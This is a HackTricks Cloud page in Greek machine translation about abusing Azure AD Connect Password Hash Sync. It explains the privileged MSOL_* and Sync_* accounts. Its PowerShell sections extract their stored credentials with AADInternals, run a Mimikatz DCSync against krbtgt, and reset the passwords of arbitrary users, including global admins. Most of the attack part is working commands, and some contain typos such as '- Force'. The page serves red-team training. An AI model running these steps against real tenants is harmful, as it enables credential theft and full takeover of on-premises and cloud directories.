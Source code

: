# Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Η συγχρονισμένη κωδικοποίηση κωδικών πρόσβασης** είναι μία από τις μεθόδους σύνδεσης που χρησιμοποιούνται για την επίτευξη υβριδικής ταυτότητας. **Το Azure AD Connect** συγχρονίζει μια κωδικοποίηση, της κωδικοποίησης, του κωδικού πρόσβασης ενός χρήστη από μια τοπική εγκατάσταση Active Directory σε μια cloud-based Azure AD εγκατάσταση.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Είναι η **πιο κοινή μέθοδος** που χρησιμοποιούν οι εταιρείες για να συγχρονίσουν μια τοπική AD με το Azure AD.

Όλοι οι **χρήστες** και μια **κωδικοποίηση των κωδικών πρόσβασης** συγχρονίζονται από την τοπική AD στο Azure AD. Ωστόσο, οι **κωδικοί πρόσβασης σε καθαρό κείμενο** ή οι **αρχικές** **κωδικοποιήσεις** δεν αποστέλλονται στο Azure AD.\
Επιπλέον, οι **ενσωματωμένες** ομάδες ασφαλείας (όπως οι διαχειριστές τομέα...) **δεν συγχρονίζονται** στο Azure AD.

Η **συγχρονισμένη κωδικοποίηση** συμβαίνει κάθε **2 λεπτά**. Ωστόσο, από προεπιλογή, η **λήξη κωδικού πρόσβασης** και η **λήξη λογαριασμού** **δεν συγχρονίζονται** στο Azure AD. Έτσι, ένας χρήστης του οποίου ο **τοπικός κωδικός πρόσβασης έχει λήξει** (δεν έχει αλλάξει) μπορεί να συνεχίσει να **έχει πρόσβαση σε πόρους Azure** χρησιμοποιώντας τον παλιό κωδικό πρόσβασης.

Όταν ένας τοπικός χρήστης θέλει να αποκτήσει πρόσβαση σε έναν πόρο Azure, η **αυθεντικοποίηση πραγματοποιείται στο Azure AD**.

**PHS** απαιτείται για δυνατότητες όπως η **Προστασία Ταυτότητας** και οι Υπηρεσίες Τομέα AAD.

## Pivoting

Όταν έχει ρυθμιστεί το PHS, μερικοί **προνομιούχοι λογαριασμοί** δημιουργούνται αυτόματα:

* Ο λογαριασμός **`MSOL_<installationID>`** δημιουργείται αυτόματα στην τοπική AD. Αυτός ο λογαριασμός έχει ρόλο **Λογαριασμών Συγχρονισμού Καταλόγου** (βλ. [τεκμηρίωση](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) που σημαίνει ότι έχει **δικαιώματα αναπαραγωγής (DCSync) στην τοπική AD**.
* Ένας λογαριασμός **`Sync_<name of on-prem ADConnect Server>_installationID`** δημιουργείται στο Azure AD. Αυτός ο λογαριασμός μπορεί να **επαναφέρει τον κωδικό πρόσβασης ΟΠΟΙΟΥΔΗΠΟΤΕ χρήστη** (συγχρονισμένου ή μόνο cloud) στο Azure AD.

Οι κωδικοί πρόσβασης των δύο προηγούμενων προνομιούχων λογαριασμών **αποθηκεύονται σε έναν SQL server** στον διακομιστή όπου **είναι εγκατεστημένο το Azure AD Connect.** Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιούχων χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της διαμόρφωσης από έναν από τους πίνακες, με έναν κρυπτογραφημένο:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Η **κρυπτογραφημένη διαμόρφωση** είναι κρυπτογραφημένη με **DPAPI** και περιέχει τους **κωδικούς πρόσβασης του χρήστη `MSOL_*`** στην τοπική AD και τον κωδικό πρόσβασης του **Sync\_\*** στο AzureAD. Επομένως, η παραβίαση αυτών επιτρέπει την ανύψωση προνομίων στην AD και στο AzureAD.

Μπορείτε να βρείτε μια [πλήρη επισκόπηση του πώς αποθηκεύονται και αποκρυπτογραφούνται αυτά τα διαπιστευτήρια σε αυτή την ομιλία](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Εάν ο **διακομιστής όπου είναι εγκατεστημένο το Azure AD connect** είναι συνδεδεμένος στο τομέα (συνιστάται στα έγγραφα), είναι δυνατή η εύρεση του με:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Κατάχρηση MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Μπορείτε επίσης να χρησιμοποιήσετε το [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) για να αποκτήσετε αυτά τα διαπιστευτήρια.
{% endhint %}

### Κατάχρηση Sync\_\*

Η παραβίαση του **`Sync_*`** λογαριασμού επιτρέπει την **επανεκκίνηση του κωδικού πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Παγκόσμιων Διαχειριστών)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Είναι επίσης δυνατό να **τροποποιηθούν οι κωδικοί πρόσβασης μόνο των χρηστών του cloud** (ακόμα και αν αυτό είναι απροσδόκητο)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Είναι επίσης δυνατό να εκχυθεί ο κωδικός πρόσβασης αυτού του χρήστη.

{% hint style="danger" %}
Μια άλλη επιλογή θα ήταν να **ανατεθούν προνομιακές άδειες σε έναν υπηρεσιακό κύριο**, τον οποίο ο χρήστης **Sync** έχει **δικαιώματα** να κάνει, και στη συνέχεια να **προσεγγιστεί αυτός ο υπηρεσιακός κύριος** ως τρόπος privesc.
{% endhint %}

### Seamless SSO

Είναι δυνατό να χρησιμοποιηθεί το Seamless SSO με το PHS, το οποίο είναι ευάλωτο σε άλλες καταχρήσεις. Ελέγξτε το εδώ:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
